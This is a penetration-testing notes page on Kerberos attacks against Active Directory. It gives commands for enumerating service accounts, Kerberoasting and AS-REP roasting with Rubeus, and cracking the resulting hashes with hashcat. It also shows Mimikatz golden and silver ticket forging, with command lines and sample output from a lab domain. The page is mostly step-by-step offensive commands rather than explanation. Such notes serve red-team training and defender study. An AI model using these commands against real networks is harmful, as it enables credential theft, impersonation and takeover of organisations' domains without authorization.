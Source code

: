 # Kerberos Attacks

## Relationships and Attack paths

We can use [bloodhound ](../../tools/bloodhound/)to find hidden relationships and attack paths in an Active Directory environment.

From the data collect we can escalate our privilege to the target, or use tools like [aclpwn](../../tools/bloodhound/aclpwn.md).

## Kerberoasting

The [AD Powershell ](https://github.com/samratashok/ADModule)module can be used to search for users with SPN

| `Import-Module .\Microsoft.ActiveDirectory.Management.dll -Verbose`  `Get-ADUser -LdapFilter "(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))"` `| Format-Table Name, DistinguishedNam` |
| :--- |


Using Nmap: 

`nmap $TARGET -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='test'` 

Using Rubeus to gain hashes: 

`Rubeus.exe kerberoast /outfile:hashes.txt` 

 Use the hashcat -m 13100 \(Kerberos 5 TGS-REP etype 23\) to crack:  

`hashcat -a 0` `-m 13100` `SPN.hash /wordlists/rockyou.txt`

[https://newerasec.com/kerberoasting/](https://newerasec.com/kerberoasting/)

## AS-RES

Find users with pre-auth enabled using the [AD Powershell ](https://github.com/samratashok/ADModule)module :

```text
Import-Module .\Microsoft.ActiveDirectory.Management.dll -Verbose

Get-ADUser -Filter 'useraccountcontrol -band 4194304' -Properties useraccountcontrol | Format-Table name
```

To exploit run:

```text
.\Rubeus.exe asreproast
```

[https://newerasec.com/as-roast/](https://newerasec.com/as-roast/)

## Golden Ticket

Once you gained the krbtgt hash \(from dcsync or DC compromise\)T

The Mimikatz kerberos::golden module handles Golden Tickets

We need the following parameters:  

* /domain - name of the domain
* /sid - the sid of the domain \(can be obtain from 'whoami /user' , remember to remove the RID\)
* /rc4 - the NTLM hash of krbtgt
* /user - the user you want to create the new TGT ticket for
* /id - the RIF of that user you looking to create ticket for
* /ptt - \(Optional\) inject the new ticket into the current session, if not applied the ticket will be saved to a file

```text
mimikatz # kerberos::golden /domain:eth.lab /sid:S-1-5-21-98033113-2199257571-2188946577 /rc4:88a4507aae31297a2df7921b1430d781 /user:Administrator /id:500  /ptt
User      : Administrator
Domain    : eth.lab (ETH)
SID       : S-1-5-21-98033113-2199257571-2188946577
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 88a4507aae31297a2df7921b1430d781 - rc4_hmac_nt
Lifetime  : 06/04/2020 14:05:45 ; 04/04/2030 14:05:45 ; 04/04/2030 14:05:45
-> Ticket : ** Pass The Ticket **
 
 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated
 
Golden ticket for 'Administrator @ eth.lab' successfully submitted for current session 
```

[https://newerasec.com/golden-ticket/](https://newerasec.com/golden-ticket/)

## Silver Ticket

use the 'kerberos::golden' module to forge TGS, we will need to pass the following parameters:

* /domain: The FDQN
* /sid: The SID \(Security Identifier\) of the Domain \(whoami /user\)
* /user: Target Account/Computer to Impersonate
* /id: RID of the account you will be impersonating
* /ptt: Optional \( will automatically inject the ticket into the current session\)
* /rc4: NTLM Hash of User Password/Computer Password
* /service: the service we want to access

**Example:**

```text
mimikatz # kerberos::golden /sid:S-1-5-21-98033113-2199257571-2188946577-500 /domain:eth.lab /ptt /id:500 /target:WIN-EU4DLP9KRRC.eth.lab /service:cifs /rc4:0c0d4252608be9131c2826a6feaf94b8 /user:Administrator
User      : Administrator
Domain    : eth.lab (ETH)
SID       : S-1-5-21-98033113-2199257571-2188946577-500
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 0c0d4252608be9131c2826a6feaf94b8 - rc4_hmac_nt
Service   : cifs
Target    : WIN-EU4DLP9KRRC.eth.lab
Lifetime  : 03/04/2020 17:00:01 ; 01/04/2030 17:00:01 ; 01/04/2030 17:00:01
-> Ticket : ** Pass The Ticket **
 
 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated
 
Golden ticket for 'Administrator @ eth.lab' successfully submitted for current session

```

{% embed url="https://newerasec.com/silver-ticket/" %}



